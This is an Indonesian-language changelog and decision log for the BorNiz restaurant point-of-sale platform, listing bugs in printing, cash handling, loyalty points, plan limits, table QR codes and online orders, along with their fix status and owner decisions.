| 2026-10-22 | src/screens/guest/kit.tsx | Merchant dengan tema gelap (paper gelap, ink terang): semua kartu, tombol & sheet tamu tetap putih (`SURFACE = --ink-0`, `--bn-surface` tidak pernah di-set) → teks terang di atas putih, tak terbaca (link-in-bio, menu, checkout); ikon tren KPI naik saat angka turun | fixed (surface dari paper tema; studio menolak surface yang kontrasnya < 4.5:1; tes new-business.test.ts gagal tanpa fix) |
| 2026-10-22 | src/app/Shells.tsx | Sidebar setiap owner tertulis tetap "Owner · 3 outlets · Pro" (teks prototipe; bisnis Free 1 outlet pun begitu); nama & inisial bisnis kosong bila Brand Studio belum diisi; merchant melihat "Knowledge graph" (alat dev), tag rilis "v1.0" dan "Search 603 features"; "vs last thursday" huruf kecil | fixed (jumlah outlet & plan nyata, nama bisnis sebagai cadangan, alat dev & tag rilis hanya di mode demo) |
| 2026-10-22 | config:deploy | Next.js 16.4.0 terkena RCE tanpa login (GHSA-2464-fhr4-w9xw, Image Optimization + SVG), RCE `use cache` (GHSA-673q-mjm6-r5xr), DoS Server Actions (GHSA-p3m5-59mp-jv5r); `next build` kini menolak build → setiap deploy gagal | fixed (next 16.4.2, npm audit 0) |
| 2026-10-22 | fn:defaultDesign | Desain awal setiap bisnis baru berisi milik demo Kopi Biru: struk mencetak password WiFi KOPIBIRU-GUEST & no. kritik 0812-3456-7890, layar pelanggan mengiklankan "Payday week: 20% off" (promo yang tidak pernah ada), QR menu: cerita Gayo/Kintamani, @kopibiru.id, "Biru Rewards"; default studio: NPWP & PT Kopi Biru di kop surat/halaman legal, webhook hooks.kopibiru.id | fixed (default netral, bagian yang butuh kata-kata owner mati sampai diisi, kata-kata demo pindah ke seed.ts; tes new-business.test.ts gagal tanpa fix) |
| 2026-10-22 | comp:Icon | 7 nama ikon tidak ada di Lucide 1.55 (circle-help, history, building-2, trash-2, filter, pause-circle) → tampil sebagai lingkaran kosong di bantuan, riwayat, hapus, filter, tenant, order dijeda | fixed (nama Lucide 1.x; tes icons.test.ts) |
| 2026-10-22 | page:/case-studies-and-testimonials | Testimoni karangan ("Hendra W., Bara Grill, Bandung" …) di halaman publik produk yang belum punya pelanggan; "Outlets that run on BorNiz" untuk toko demo | fixed (testimoni dihapus, demo disebut demo) |
| 2026-10-22 | app/globals.css | Warna #fff hard-code di KDS/POS/waiter (ada token --ink-0); label grup navigasi pakai JetBrains Mono 11px (DS: mono hanya ID); badge 10–11px di bawah caption DS; ikon sparkles/wand/gem generik; animasi loop tetap jalan dengan reduced-motion | fixed |
| 2026-10-22 | fn:toolVersion | Kunci plan studio hanya berlaku bila pembaca menyebut plan-nya; coupon, fonts, sounds (Pro), push (Enterprise), pixels (Basic) dibaca tanpa plan → bisnis Free tetap mencetak kupon / memakai font Pro hasil trial atau tulisan API | fixed (`TOOL_PLAN` satu daftar, plan default tiap pembaca; tes plan-limits.test.ts gagal tanpa fix) |
| 2026-10-22 | src/data/alerts/automations.ts | Studio Automations (terima kasih, feedback, win-back, ulang tahun): saklar on/off, jeda, kanal, syarat & batas harian tidak dibaca siapa pun; terima kasih dikodekan tetap 60 menit di dua tempat; feedback/win-back/ulang tahun tidak pernah jalan sendiri | fixed (satu mesin di sweep perangkat + worker, dari versi yang dipublikasi; di bawah Pro default yang jalan; tes automations.test.ts) |
| 2026-10-21 | policy:plan_rules | Batas plan hanya tampilan: Free bisa menambah outlet ke-2, register ke-2, KDS, customer display lewat API (dan layar pun tidak menolak tambah outlet); layar register menghitung register semua outlet, bukan per outlet; outlet sisa trial membawa register sendiri | fixed (BN076 `docs_plan_rules` + `planBlock` di plans.ts dipakai aksi & layar; yang sudah ada tetap jalan setelah turun plan; tes plan_rules.sql + plan-limits.test.ts) |
| 2026-10-20 | fn:bn_machine_clock | Satu baris scan rusak (tanggal mustahil) menggagalkan seluruh batch → mesin mengirim ulang batch yang sama selamanya, semua scan sesudahnya tertahan | fixed (baris rusak dilewati; tes attendance.sql gagal tanpa fix) |
| 2026-10-20 | fn:bn_machine_clock | Label Fingerspot ("Scan Keluar") di-cast ke angka → setiap scan Fingerspot ditolak; jam mesin salah (2019 / 2099) dan karyawan yang sudah keluar tetap tercatat absen | fixed (label dibaca, scan di luar 35 hari / >10 menit ke depan dilewati + pesan "atur tanggal mesin", karyawan nonaktif dilewati) |
| 2026-10-20 | src/devices/zk.ts | Handshake tidak mengirim TimeZone → mesin bisa mencap jam di zona pabrik; getrequest tidak menandai mesin online; port 80 tanpa client_max_body_size (backlog >1 MB = 413 selamanya); pencarian serial memindai semua dokumen | fixed (TimeZone dari config.tz, getrequest = seen maks 1×/menit, 10m, index serial) |
| 2026-10-20 | fn:bn_machine_clock | Serial tercetak di mesin = satu-satunya identitas → siapa pun bisa kirim scan palsu | wadah (config.ip opsional: hanya dari alamat internet outlet, BN065); comm key / Push 3.x, key Fingerspot di secrets, serial terdaftar lintas cell, stamp ATTLOG terakhir: open |
| 2026-10-20 | src/devices/routing.ts | Perangkat yang belum di-pair (HP waiter, tablet PIC, KDS) menganggap dirinya register pertama → tiket tercetak 2–3×; struk auto-print register lain ikut tercetak; tiket tercetak lagi setelah gabung/pisah bill | fixed (keputusan owner "printer perbaiki": hanya layar register / perangkat ter-pair; struk di register yang menerima uang (`payments.takenOn`); baris pindahan bawa `movedFrom`; tes print.test.ts) |
| 2026-10-20 | src/devices/receipt.ts | Lebar kertas template mengalahkan printer; cetak ulang tanpa refund; tanda COPY hilang di perangkat lain (mode database) | fixed (lebar yang diset di printer menang, baris Refund, `orders.printedAt` via markReceiptPrinted) |
| 2026-10-20 | src/devices/agent.ts | Void yang disetujui dari antrean / dibatalkan platform tidak mencetak slip VOID; penyimpanan browser diblokir → agent tidak pernah mencetak | fixed (agent mencetak slip dari `orders.stopped` + bill void; memori tab sebagai cadangan) |
| 2026-10-20 | src/devices/hardware.ts | Salinan expo tercetak per stasiun; tab pemimpin cetak menahan lock walau pindah layar; kembalian di struk auto dari tab lain = 0; tidak ada yang mencetak order QR/kiosk bila tidak ada perangkat staf terbuka (dicetak saat register dibuka) | open |
| 2026-10-20 | src/devices/bridge.mjs | Halaman web mana pun yang terbuka di register bisa mencetak / membuka laci lewat bridge (POST text/plain tanpa preflight tetap dijalankan) dan bridge meneruskan byte ke host:port mana pun (relay ke layanan lain di jaringan) | fixed (hanya origin BorNiz + JSON, hanya port printer 9100–9109 / BORNIZ_BRIDGE_PORTS; tes print.test.ts) |
| 2026-10-20 | src/devices/bridge.mjs | `node bridge.mjs` keluar diam-diam di folder dengan spasi / Windows (cek file:// salah) | fixed (pathToFileURL) |
| 2026-10-20 | fn:pendingJobs | Agent mencetak tiket untuk bill yang di-void dan baris yang sudah selesai di dapur (saat sinkron terlambat / KDS offline) | fixed |
| 2026-10-20 | src/devices/agent.ts | Setelah 2 hari catatan cetak dihapus tapi `since` tidak maju → tiket & struk hari-hari lama tercetak lagi | fixed (prune memajukan since) |
| 2026-10-20 | fn:printTickets | Cetak ulang tiket ikut mencetak course yang ditahan (belum dikirim ke dapur) | fixed (hanya baris yang sudah dikirim) |
| 2026-10-20 | src/devices/receipt.ts | Jumlah per baris di struk dibulatkan beda dari hitungan order (713 vs 712); kas dibulatkan ke atas tidak tampil (TOTAL 25.050, Cash 25.100) | fixed (lineTotal; baris Cash rounding +50, TOTAL 25.100) |
| 2026-10-20 | src/devices/receipt.ts | Slip void/pindah meja berlabel "REPRINT" & tercatat sebagai reprint; browser print membuang indent modifier; QR halaman tes hard-code bornis.id | fixed |
| 2026-10-20 | policy:online_rules | Bill dine-in dilabel ulang jadi GoFood dalam satu tulisan → "lunas QRIS" tanpa uang masuk (pengecualian BN004) atau di-void tanpa approval (pengecualian BN056); kasir bisa membuat order GoFood palsu (tombol Simulate di database) | fixed (BN062: source tidak berubah, order platform hanya dari webhook / owner-manager; tes online_db.sql) |
| 2026-10-20 | policy:staff_rules | Void tanpa approval dengan mengosongkan item di tulisan yang sama; kasir mem-void order ojol yang sudah diserahkan | fixed (BN056 menilai bill sebelum ditulis; void ojol tanpa approval hanya saat masih baru) |
| 2026-10-20 | fn:bn_platform_order | Pembatalan dari platform setelah order diterima diabaikan (dapur tetap memasak, webhook jawab 200); retry bersamaan → error unik; order yang pertama datang sudah batal tetap berbunyi "menunggu diterima" | fixed (batal menghentikan order sampai diserahkan; lock per order; tes online_db.sql) |
| 2026-10-20 | policy:online_rules | Dua perangkat menyerahkan order ojol yang sama → dua pembayaran e-wallet | fixed (BN062 satu pembayaran per serah terima) |
| 2026-10-20 | fn:normalizeOrder | SKU item platform dibuang (stok/COGS tidak terpotong), id platform yang beda tanda baca bentrok (order kedua hilang sebagai "duplikat"), harga kosong/negatif & placedAt dalam detik diterima | fixed (tes integrations-server.test.ts; webhook menjawab 400) |
| 2026-10-20 | page:/online | Auto-accept, Connected, Pause tidak dibaca webhook; setiap layar mem-void order platform 3 menit setelah dibuat tanpa memberi tahu platform; komisi platform tidak dipotong di laporan; order ojol memberi poin ke member yang ditautkan | open (keputusan owner + integrasi partner) |
| 2026-10-20 | src/screens/online.tsx | Warna `#fff` & teks 11–12px di layar staf (aturan token / ≥13px) | open (desain) |
| 2026-10-20 | policy:beans_rules | Server tidak membatasi baris poin positif: kasir menambah 100.000 poin "Adjustment" tanpa approval owner, earn di bill belum lunas / di atas rate tier, welcome beans kedua, "Redeem" positif | fixed (BN061; tes beans_db.sql gagal tanpa fix) |
| 2026-10-20 | policy:beans_rules | Dua redeem bersamaan (dua register) sama-sama lolos cek saldo → saldo minus | fixed (lock per member; tes beans-race.mjs: kedua redeem lolos di skema lama) |
| 2026-10-20 | fn:apply_ops | Dua perangkat / perangkat + worker menyelesaikan order QRIS yang sama: precondition `expect` tanpa lock → keduanya lolos (poin + stok dobel) | fixed (expect `for update` + earn sekali per order; tes beans-race.mjs) |
| 2026-10-20 | policy:beans_rules | Request yang masih menunggu bisa ditulis ulang (+50 → +50.000 poin) sebelum owner menandatangani | fixed (BN048 juga saat waiting; payload hanya boleh bertambah) |
| 2026-10-20 | fn:applyDecision | Refund penuh setelah poinnya terpakai: pembalikan poin membuat saldo minus → di mode database BN003 menggagalkan seluruh keputusan refund (uang tidak bisa dikembalikan) | fixed (pembalikan maksimal saldo; tes audit-beans.test.ts + staff-actions.mjs: BN003 dengan kode lama) |
| 2026-10-20 | fn:redeem | Redeem dengan biaya negatif menambah poin | fixed |
| 2026-10-20 | page:/order/customer-links/member-card-and-points | Tamu jadi member lain cukup dengan mengetik nomor HP (tanpa OTP) → lihat saldo & pakai poin orang lain | open (keputusan owner: OTP WA/SMS berbayar) |
| 2026-10-20 | fn:memberDB | Mode database: poin lama digabung jadi satu baris "Opening balance" bertanggal 35 hari lalu → tier & multiplier salah | open (perlu agregat earned-12-bulan di bn_server_opening) |
| 2026-10-20 | policy:bn_guest_write | Mode database menolak/membuang tulisan tamu: beans feedback, referral (diskon + reward), display menautkan member ke order POS, QR order dengan item gratis dari redeem POS (BN026) | open (belum dibuktikan per kasus) |
| 2026-10-20 | page:/owner/customers/rewards-catalog | Katalog hadiah (biaya, tier, stok) tidak dibaca jalur redeem mana pun; kedaluwarsa poin 12 bulan + pengingat WA dijanjikan tapi tidak ada | open (fitur belum dibangun) |
| 2026-10-20 | policy:staff_rules | Staf mana pun bisa mengubah deposit (saldo gift card) / kasbon pelanggan langsung | open (aturan server berikutnya) |
| 2026-10-20 | policy:cash_rules | Server tidak menjaga kas: kasir tulis cash out 400rb langsung `done` tanpa approval, ubah jumlah cash out sesudah disetujui (40rb → 450rb), ubah safe drop, tutup sendiri drawer yang kurang 300rb atau tulis ulang hitungannya | fixed (migration cash_rules BN059/BN060; tes cash_db.sql gagal tanpa fix, staff-actions.mjs: alur kas asli app lolos) |
| 2026-10-20 | fn:closeSession | Close kedua / replay offline menimpa hitungan pertama (-30rb → -200rb) dan membuat approval selisih kedua | fixed (drawer dihitung sekali; tes audit-drawer.test.ts) |
| 2026-10-20 | fn:closeSession | Selisih tanpa catatan tetap menutup drawer (hanya tombol UI yang mencegah) | fixed (needsNote = tidak ditutup) |
| 2026-10-20 | fn:picCountDrawer | PIC yang memegang drawer bisa menandatangani selisih drawernya sendiri saat PIC lain yang menghitung; alert Cash variance terkirim 2× | fixed (satu jalur closeSession: requestedBy = pemegang, countedBy = penghitung) |
| 2026-10-20 | fn:rejectEffects | Cash out ditolak ditulis `done · 0`: jumlah yang diminta hilang dari X report dan riwayat | fixed (status `rejected`, jumlah tetap) |
| 2026-10-20 | page:/pic/cash | Pemilih drawer di Cash moves menampilkan expected cash → blind count di layar yang sama tidak lagi buta | fixed |
| 2026-10-20 | fn:sessionCash | Kas diterima orang tanpa drawer terbuka (PIC/manager, atau setelah drawer ditutup) dan refund tunai dari drawer yang sudah tutup dibukukan ke drawer tertutup → expected drawer itu berubah setelah dihitung | open (keputusan owner: uang itu masuk drawer siapa?) |
| 2026-10-20 | page:/pos/selling/shift | Tutup shift boleh dengan bill terbuka / cash out masih menunggu; cash in & safe drop di POS tanpa approval atau cek izin | open (keputusan owner) |
| 2026-10-20 | policy:cash_rules | Server belum menghitung ulang expected cash: selisih yang dikirim perangkat pada hitungan pertama dipercaya | open (perlu sessionCash di SQL) |
| 2026-10-20 | policy:stock_rules | Stok bisa diubah langsung lewat API tanpa approval (kasir tambah 50 unit `adjust`, PIC tulis `opname_adjustment` / `receipt` tanpa opname/PO disetujui, movement approval yang sama dua kali) | fixed (migration stock_rules BN057; tes stock_db.sql gagal tanpa fix, stock-actions.mjs: aksi asli app tetap lolos) |
| 2026-10-20 | policy:stock_rules | Opname yang sudah dikunci masih bisa diubah hitungannya / dibuka lagi tanpa permintaan recount | fixed (BN058; foto tetap boleh) |
| 2026-10-20 | policy:docs_guard | Request yang dikembalikan untuk recount bisa dikirim ulang dengan level diturunkan (selisih IDR 900rb level `cashier`) | fixed (BN053 juga saat update) |
| 2026-10-20 | src/integrations/server/worker.ts | Worker mengirim pesan antre → server menandai `sent` (bn_outbox_done) → tulisan worker sendiri ditolak BN040 (syarat status lama) → seluruh otomasi putaran itu hilang, berulang tiap menit | fixed (status pesan milik server; tes gateway.mjs: BN040 tanpa fix) |
| 2026-10-20 | src/integrations/server/worker.ts | Setelah settlement tersimpan, `stored` tidak ikut diperbarui → order kedua dengan promo sama gagal BN040, tertunda ke putaran berikut | fixed (stored = yang ditulis; tes: 2 order 1 promo lunas sekali jalan) |
| 2026-10-20 | app/api/payments/refund/route.ts | Gateway sudah refund, simpan ke DB gagal → kunci outbox `failed` → coba lagi = refund dobel; klaim `sending` dijawab ok | fixed (gagal hanya bila gateway menolak, `sending` = 409; tes: retry dapat duplicate) |
| 2026-10-20 | src/app/App.tsx | Gerbang NO_OUTLET menahan QR menu & kiosk → slug salah = spinner selamanya, "menu tidak tersedia" tak pernah tampil | fixed (selforder/kiosk dikecualikan, `Unavailable` di guest/kit.tsx) |
| 2026-10-20 | src/data/backend.ts | `bn_device_join` tanpa bisnis → dari app.bornis.id merchant yang sudah pindah DB dicari di DB bersama → BN081, register tak bisa bergabung | fixed (rpc kirim X-BorNiz-Tenant; tes cells-api.mjs gagal tanpa fix) |
| 2026-10-20 | src/data/actions/dispatch.ts | Email dari worker: link Unsubscribe ke bisnis default (tak ada `location` di server) | fixed (linkTo(path, db.tenant.id) + alamat deployment di server; tes dispatch.test.ts) |
| 2026-10-20 | app/api/bn/[...op]/route.ts | Lupa password ditolak 400 di host yang tidak dikenal (IP server, nama lain) | fixed (link ke alamat deployment sendiri, tetap tanpa open redirect; tes api.mjs) |
| 2026-10-20 | src/screens/admin.tsx | Form domain super admin: nilai awal id bukan slug → perintah salin menyebut bisnis salah | fixed |
| 2026-10-20 | app/api/app-manifest/route.ts | `?app=constructor` lolos `in` → 500 | fixed (Object.hasOwn) |
| 2026-10-20 | src/integrations/server/worker.ts | Worker membaca ulang semua dokumen semua bisnis tiap menit walau tak berubah | open (efisiensi; baca inkremental per updated_at) |
| 2026-10-19 | scripts/tenant-move.sh | Pindah merchant ke DB sendiri belum siap di backend sendiri (routing tanpa p_tenant, migrasi cell, copy auth.users) | fixed 2026-10-20 (call(): p_slug / host / BN050 → cell, akun disalin, plan di dua DB, worker ikut, db:migrate cell, copy akun tanpa duplikat + write_ops; tes move.sh + cells-api.mjs gagal tanpa fix) |
| 2026-10-15 | fn:tableNo | `/^T-?/` membuang "T" dari nama apa pun: "Teras 1" tampil "eras 1" di ±20 layar tamu + customer display | fixed |
| 2026-10-15 | fn:publicUrl | Nama meja tidak di-encode di URL QR: "Bar/1" → meja "Bar", "VIP #2" → "VIP"; "Meja 100%" bikin halaman tamu crash (decode dua kali) | fixed |
| 2026-10-15 | fn:findTable | QR yang sudah tertempel setelah meja di-rename (atau QR asal) membuat pesanan di meja hantu yang tidak ada di denah POS/waiter | fixed (alias `was`; meja tak dikenal = tidak bisa pesan) |
| 2026-10-15 | page:/owner/outlets/tables-and-floor-plan | Kunci edit = nama: mengetik nama yang sama dengan meja lain mengedit DUA meja sekaligus | fixed (kunci internal `k`) |
| 2026-10-15 | page:/owner/outlets/tables-and-floor-plan | Ganti outlet dengan perubahan belum disimpan: denah outlet A tampil (dan tersimpan) sebagai outlet B | fixed (editor di-key per outlet) |
| 2026-10-15 | policy:staff_rules | Server (`bn_guest_write`) tidak memvalidasi nama meja terhadap denah; validasi baru di client | open |
| 2026-10-14 | fn:holdsTable | 8 definisi "pesanan aktif" berbeda; pesanan QR lunas (QRIS) yang masih dimasak tampil "meja kosong" di POS/waiter/manager/denah → kasir duduk-kan tamu baru di meja yang sama, owner bisa hapus mejanya | fixed (satu aturan) |
| 2026-10-14 | page:/pos/selling/move-table | Move hanya bisa pindah bill terbuka (`cur`); pesanan lunas yang masih dimasak tidak bisa dipindah | fixed (pindah per meja) |
| 2026-10-14 | fn:moveTable | Pindah meja = `patchOrder` diam: tiket cetak tetap meja lama, dapur/waiter tidak diberi tahu, HP tamu kehilangan pesanannya | fixed |
| 2026-10-14 | fn:voidItem | Void item yang sudah di dapur hilang diam-diam dari KDS; tiket kertas tetap → dimasak juga | fixed (alert + slip VOID) |
| 2026-10-14 | page:/owner/outlets/table-qr-generator | Default "To table" 12 tetap → meja 13+ tidak pernah dapat QR | fixed (0 = semua) |

## Keputusan

| Tanggal | Keputusan | Alasan | Node terdampak |
|---|---|---|---|
| 2026-10-22 | Teks staf minimal 12px (token caption), bukan 13px | Design Notes menulis 13px, tapi token DS `--text-caption` (spec/tokens/typography.css) dan prototipe sendiri memakai 12px; Design Notes diselaraskan ke token | doc:spec, app/globals.css |
| 2026-10-22 | Fitur di tabel harga (loyalty, inventory, self-order, shift) belum dikunci | Spec hanya menegakkan outlet / register / KDS (bn-alerts.js "Plan limit reached"); mematikan fitur yang sedang dipakai merchant Free = keputusan harga owner | policy:plan_rules |
| 2026-10-19 | Domain merchant diaktifkan operator (deploy/add-domain.sh), bukan routing dinamis dari DB | Halaman statis (618) + env yang di-bake saat build; satu VPS, merchant enterprise jarang: script lebih sederhana dan benar daripada cookie/edge config | fn:publicUrl, config:deploy |
| 2026-10-19 | Worker otomasi = proses Node terpisah (systemd), bukan di dalam Next | Next mengompilasi instrumentation sebagai Server Component yang menolak modul ber-hook; proses terpisah memakai kode yang sama tanpa build | fn:dbMigrate, config:deploy |
| 2026-10-18 | Satu VPS = dua salinan: live `/srv/borniz` + DB `borniz`, dev `/srv/borniz-dev` + DB `borniz_dev` (PostgreSQL yang sama), user `borniz`; dev lewat SSH tunnel :3001 | Owner mau develop langsung di VPS; develop di folder/DB live = setiap edit langsung kena pelanggan dan migrasi setengah jadi merusak data asli | config:deploy, fn:dbMigrate |
| 2026-10-14 | Kunci meja = namanya | `orders.table` / `reservations.table` / tiket sudah menyimpan nama; rename meja bertagihan ditolak | fn:saveFloor, semua konsumen |
| 2026-10-14 | "Pindah meja" memindah semua pesanan hidup di meja itu | Satu meja bisa punya pesanan QR lunas + ronde POS baru; tamu pindah bersama semuanya | page:/pos/selling/move-table |
| 2026-10-14 | HP tamu ikut pindah hanya bila staf yang memindah (`movedFrom`); tamu yang pindah sendiri dapat tombol "minta staf pindahkan" | QR lama di URL tidak boleh menarik pesanan kembali; scan meja lain = niat tamu | page:/order status |
| 2026-10-18 | Jalan 2: PostgreSQL sendiri tanpa software Supabase; logika SQL (migrations) dipakai utuh di atas platform.sql | Owner pakai VPS sendiri; semua aturan DB sudah teruji di Postgres biasa | config:platform, fn:dbMigrate |
| 2026-10-18 | Jalan 2 selesai: tanpa software Supabase; API sendiri (app/api/bn), login sendiri (cookie .root), realtime NOTIFY→SSE, folder supabase/ → db/ | Owner memilih PostgreSQL sendiri di VPS | api:/api/bn, fn:authSession, fn:liveHub, fn:dbCall |
| 2026-10-18 | SEMUA milik bisnis (owner, manager, studios, POS, PIC, online, waiter, KDS, display, QR, kiosk) di `<slug>.bornis.id`; platform = bornis.id, app. (daftar/masuk), admin.; pos./kds./display. → app., order.<slug> → <slug>.; daftar baru memilih alamat dan langsung pindah ke subdomain | Keputusan owner (2×), mengganti pembagian host spec | fn:publicUrl, fn:leaveFor, fn:onBusinessHost, fn:isTenantSlug, config:deploy |
| 2026-10-18 | Bisnis di `<slug>.bornis.id` (bukan `order.bornis.id/<slug>`); link lama di-redirect; slug platform ditolak di app + DB | Keputusan owner; spec Sitemap masih `order.` | fn:publicUrl, fn:isTenantSlug, config:deploy |
| 2026-10-18 | Satu folder repo + satu proses untuk semua subdomain; tidak ada folder/app per subdomain | Kode dipakai lintas host (insight/, ops/, guest/); salinan per subdomain = data & logika bercabang (keputusan owner "one system") | config:deploy |
| 2026-10-15 | Rename meja menyimpan nama lama di `was` | QR yang sudah tertempel tetap jalan sampai dicetak ulang | fn:findTable, page:/owner/outlets/tables-and-floor-plan |
| 2026-10-14 | Denah kosong = T-01…T-n dari `tables` | Data lama tetap jalan tanpa migrasi | fn:tablesOf |
